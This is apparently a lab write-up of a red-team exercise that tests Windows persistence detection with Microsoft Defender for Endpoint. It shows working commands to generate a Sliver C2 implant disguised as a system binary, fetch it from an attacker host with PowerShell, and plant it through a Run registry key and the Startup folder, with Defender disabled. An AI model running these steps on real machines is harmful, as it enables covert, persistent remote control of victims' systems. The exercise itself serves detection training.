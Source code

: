 # Multi-Vector Persistence via C2 (Run Key + Startup Folder)

This scenario shows two persistence methods delivered through a Sliver C2 session:  
1. **Registry Run key** (`HKCU\Run`) – MITRE T1547.001  
   https://attack.mitre.org/techniques/T1547/001/  
2. **Startup folder executable** – MITRE T1547.009  
   https://attack.mitre.org/techniques/T1547/009/

Both are popular with groups like APT29, Lazarus, and FIN7 because they survive reboots, execute on user sign-in, and blend into normal system activity. 
We test them with Microsoft Defender for Endpoint (MDE) enabled to see what is caught and what a hunter must find manually.  

### Tools Used

- [Sliver C2](https://github.com/BishopFox/sliver) by Bishop Fox – A cross-platform, open-source Command and Control (C2) framework  
  ↳ See the [official Sliver wiki](https://sliver.sh/) for documentation

## Scenario Setup

We begin by generating a Windows payload from a Sliver C2 instance hosted on a separate Ubuntu 22.04 server. The payload is named `WindowsTelemetryService.exe` and is designed to simulate a lightweight backdoor.

On the target system, the payload is delivered using PowerShell and dropped into two persistence locations:

- **Registry Run Key (ASEP)**:
`HKCU\Software\Microsoft\Windows\CurrentVersion\Run`


- **Startup Folder**:
`C:\Users\TrustMeBro\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`


After both persistence methods are in place, the target is rebooted to trigger execution via sign-on.  

### Host Details

- **Target Hostname:** `CEO-LAPTOP`
- **Attacker Hostname:** `HR-COMPLAINTS`
- **Attacker IP:** `10.1.0.51`

---

<details>
<summary><strong>🔹 Step 1: Generate and Host Payload (Attacker VM)</strong></summary>  

&nbsp;

On the attacker VM (`HR-COMPLAINTS`), we generate a Windows executable using [Sliver C2](https://github.com/BishopFox/sliver):

```bash
sudo sliver
generate --os windows --format exe --name WindowsTelemetryService --http https://10.1.0.51
```


<img width="1007" height="201" alt="sliver_generate_payload" src="https://github.com/user-attachments/assets/405caa7d-0575-4c6c-8df1-5ca050dc5e30" />

> In order to blend in, and more accurately imitate attacker tradecraft, I chose `WindowsTelemetryService.exe` to look like a legitimate system binary and reduce suspicion.

&nbsp;

To deliver the payload I spun up a Python web server (hosted on `port 80`, commonly allowed through firewalls):

```bash
sudo python3 -m http.server 80
```  

&nbsp;

</details>

<details>
<summary><strong>🔹 Step 2: Download and Persist on Target (`CEO-LAPTOP`)</strong></summary>  

&nbsp;

Use PowerShell to download the payload as the admin user, `TrustMeBro`:

```powershell
wget "http://10.1.0.51/WindowsTelemetryService.exe" -OutFile "C:\ProgramData\WindowsTelemetryService.exe"
```

&nbsp;

<img width="1158" height="220" alt="downloading_payload" src="https://github.com/user-attachments/assets/3e067ad5-1067-4d88-ad8a-8a4d0e24641e" />  

&nbsp;

> <strong>NOTE:</strong> After this, my payload was instantly quarantined. Since my goal isn't to bypass Windows Defender, I just disabled it.

&nbsp;  

Now we're ready to establish persistence using two user-level techniques:  

&nbsp;

**🔸 Registry Run Key (MITRE T1547.001)**  

Creates an entry that runs the payload at user logon:

```powershell
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /V "WindowsTelemetryService" /t REG_SZ /F /D "C:\ProgramData\WindowsTelemetryService.exe"
```

&nbsp;  

<img width="1220" height="173" alt="creating_registry_persistence" src="https://github.com/user-attachments/assets/959d8ecb-4880-44bb-89cd-6643674fb006" />  

&nbsp;  
> Since we're an administrator, we could've also added it to the `HKLM` run key which would run for **all** users signing in on this box.  

&nbsp;

✅ After validating this registry-based persistence (see Step 3), the key was removed to prepare for the next technique.  
&nbsp;  

**🔸 Startup Folder (MITRE T1547.009)**  

Copies the payload to the user’s startup folder:  

```powershell
copy "C:\ProgramData\WindowsTelemetryService.exe" "C:\Users\TrustMeBro\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\WindowsTelemetryService.exe"
```
&nbsp;  

<img width="1244" height="254" alt="copying_payload_into_startup_folder" src="https://github.com/user-attachments/assets/1e158d1a-f81f-45eb-99f7-23c09d2d697c" />  

&nbsp;

These two methods increase the chance of re-execution and are commonly abused by groups like APT29, Lazarus, and FIN7.

</details>  


<details>
<summary><strong>🔹 Step 3: Trigger Persistence (Logoff → Logon)</strong></summary>

&nbsp;

To validate that the persistence methods work, we can sign out of the user session on `CEO-LAPTOP` and sign back in.  

&nbsp;  
<img width="451" height="240" alt="signing_out_of_windows_host" src="https://github.com/user-attachments/assets/4ebd116c-eb15-465c-a16a-0d5d853d243a" />  
&nbsp;


While the user is logging back in, the Sliver C2 server remains active on `HR-COMPLAINTS`, waiting for the beacon to return.

Upon login, we observe an automatic callback to the attacker machine — confirming that the registry run key and startup folder both executed `WindowsTelemetryService.exe` as expected.  

&nbsp;  
<img width="1775" height="230" alt="established_session_registry_persistence_on_sign_in_mde" src="https://github.com/user-attachments/assets/9899a1b1-ddf7-4fb8-9cea-e297a12ffd71" />  
> This session was created after triggering the Registry run key. We can see the unique session ID, which is a randomly generated GUID (a.k.a UUID).
> Only the first part of the GUID is shown in this output.

&nbsp;  
Likewise, after cleanup and placing the binary in the Startup folder, a new session is established in Sliver (indicated by the new session ID), allowing us to begin issuing commands like `whoami`.  

&nbsp;  
<img width="1714" height="338" alt="established_session_startup_folder_mde" src="https://github.com/user-attachments/assets/16353795-c6f3-4695-8fd5-07a32e0c2bf8" />  
&nbsp;



</details>

